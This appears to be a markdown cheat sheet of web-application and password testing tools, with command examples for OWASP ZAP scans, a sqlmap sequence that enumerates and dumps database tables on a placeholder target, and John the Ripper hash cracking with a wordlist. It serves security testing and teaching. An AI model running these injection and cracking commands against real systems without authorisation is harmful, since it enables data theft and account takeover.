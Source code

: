 ## Web Application Testing Tools

### Proxy Tools
- **burpsuite**: Web application security testing platform
  - Intercepting proxy
  - Scanner
  - Intruder
  - Repeater
  - Sequencer

- **owasp-zap**: Web application security scanner
  ```bash
  # Start ZAP in daemon mode
  zap.sh -daemon -port 8080
  
  # Quick scan
  zap-cli quick-scan http://target.com
  
  # Full scan
  zap-cli active-scan http://target.com
  ```

### SQL Injection Tools
- **sqlmap**: SQL injection exploitation tool
  ```bash
  # Basic SQL injection test
  sqlmap -u "http://target.com/page.php?id=1"
  
  # Test with POST data
  sqlmap -u "http://target.com/login.php" --data="username=admin&password=admin"
  
  # Enumerate databases
  sqlmap -u "http://target.com/page.php?id=1" --dbs
  
  # Enumerate tables
  sqlmap -u "http://target.com/page.php?id=1" -D database_name --tables
  
  # Dump table data
  sqlmap -u "http://target.com/page.php?id=1" -D database_name -T table_name --dump
  ```

- **sqlninja**: SQL Server injection tool

## Password Attack Tools

### Password Crackers
- **john**: Password cracker
  ```bash
  # Crack password hashes
  john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
  
  # Show cracked passwords
  john --show hashes.txt
  
  # Crack with rules
  john --rules --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
  ```
